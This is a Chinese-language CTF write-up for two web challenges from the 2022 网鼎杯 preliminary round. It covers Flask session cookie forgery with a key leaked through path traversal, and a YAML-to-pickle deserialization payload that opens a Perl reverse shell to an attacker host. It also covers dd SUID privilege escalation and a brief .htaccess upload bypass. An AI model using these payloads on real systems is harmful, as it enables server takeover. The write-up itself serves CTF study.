





# 2022 网鼎杯初赛

听说这次比赛每个队伍拿到的题目编号都是不一样的，但是题目是一样的 233

# 青龙组

## Web669

- 这个是文件上传的题目，后面知道是 CVE-2022-30333

题目界面如图所示



根据源代码可知，要登录就必须要将 user 的值修改为 'Administrator'；看着格式非常像一个 JWT 的包，直接修改是不行的。



然后发现无论怎么修改，Set-Cookie 都不会变化；后来尘落哥哥点了一下我，是 flask 的 session 伪造攻击，用的工具是这一个。

https://github.com/noraj/flask-session-cookie-manager

对应安装完之后，攻击的 Payload

```bash
python3 flask_session_cookie_manager3.py encode -t  "{'updir': 'static/uploads/4b3cf1ffc9224f4d830c5a29db854d15','user': 'Administrator'}" -s + key
```

发现是需要 key 的，一般 key 是直接提供或者爆破；爆破的话用这个工具

https://github.com/Paradoxis/Flask-Unsign

后续发现 Key 是通过 socket.gethostname() 获取的，之前考虑过目录遍历攻击，但是 `../` 会变成 `空格`，绕过的 EXP 没问题，双写绕过，但是获取的是 `etc/hosts`，结果我写成了 `etc/passwd` 太蠢了。

这里可以成功获取到 hostname 为 engine-1


通过之前的命令生成 session，然后可以上传图片了



后面就没有时间了，不知道该怎么做。

> 听闻我大杰哥说，后续部分是 python yaml load 的反序列化，输的不冤。杰哥说只要上传一句话弹 shell 就好了，可能是非预期吧。

上传一个 .yaml 的反弹 shell 文件就好了，这个还是不太会，借这道题目的机会复现一下吧。

首先制作恶意的rar文件

- yaml文件

由于题目里有过滤条件，通过直接加载 yaml 文件进行命令执行较为困难，所以同步上传一个 pickle 反序列化文件，通过 yaml 加载 pickle 文件进行命令执行。payload：

```python
filename: aaa.rar
files:
      - !!python/object/new:bytes
        - !!python/object/new:map
          - !!python/name:eval
          - ["__import__x28'pickle'x29.loadx28openx28'fileinfo/pik','rb'x29x29"]
```


同时将该yaml文件命名为9d2718721006ee787d641f526da07952.yaml，文件名为第一次上传的正常文件的文件名的md5值，这样访问那个正常rar文件时就可以触发该恶意的yaml文件。

- 恶意pickle反序列化文件
  

手写 opcode，payload：

```python
cos
system
(S'perl -e 'use Socket;$i="ip";$p=7001;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};''
tR.
```

- 上传打包好的rar文件
  

将 pickle 文件也打包进去

```python
rar a fileinfo.rar 9d2718721006ee787d641f526da07952.yaml pik
```

在 ./ 目录下上传 fileinfo.rar 文件

更改session， payload：
```python
nbsp;python3 flask_session_cookie_manager3.py encode -s "engine-1" -t "{'updir': './', 'user': 'Administrator'}"     
eyJ1cGRpciI6Ii4vIiwidXNlciI6IkFkbWluaXN0cmF0b3IifQ.YwiwRw.zCEEWeUKe6MANxewBQvv86cfTp
```

上传之后重新访问fff.rar 文件，在服务器端监听收到反弹的shell

发现没有访问flag的权限，全局搜索suid权限命令进行提权访问，发现dd命令可以利用

dd 提权法 ：https://www.cnblogs.com/zlgxzswjy/p/12746160.html

成功获得 flag

# 白虎组
## Web923 文件上传
- 看到师傅们的 WP，都写有说存在 git 泄露，反正我是没找到，不知道在哪儿

扫目录，发现有个 /public 端口是文件上传的业务点，上传什么都是回到 `public/index/index/upload.html`，想了想肯定不对，是有源码泄露的。

源码这里，function uploads()

最后攻击手段的接口 `/public/index.php/index/index/upload.html?file=.htaccess`，htaccess 没被过滤



然后上 .jpg



根据时间戳遍历即可，有机会复现一下吧，没机会复现。